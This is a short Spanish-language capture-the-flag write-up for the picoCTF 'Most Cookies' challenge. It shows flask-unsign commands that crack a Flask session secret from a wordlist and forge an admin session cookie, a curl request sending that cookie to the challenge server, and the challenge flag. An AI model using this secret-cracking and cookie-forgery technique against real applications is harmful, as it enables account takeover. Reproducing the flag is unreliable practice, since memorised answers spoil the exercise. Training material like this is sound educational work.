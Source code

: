
### Descripción 
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)
### Solución
Para realizar el reto, primero revisamos el script de python del cual sacamos de un arreglo una serie de palabras,  las cuales guardamos en un nuevo archivo. Luego realizamos los siguientes comandos 
	
		flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aAQTPA.rrMoXxomM0zu7hUhITRvP2NPHaM" --wordlist cookies.txt

Obtenemos la palabra secreta

	flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret "peanut butter"

	curl -s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAQVRg.UbaZu8ryRxKFmsRBcWGDCBo8nJQ" | grep pico


Solución: **picoCTF{pwn_4ll_th3_cook1E5_3646b931}**
### Notas adicionales


### Referencias 
https://www.youtube.com/watch?v=ufs1xqSQCUM&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=66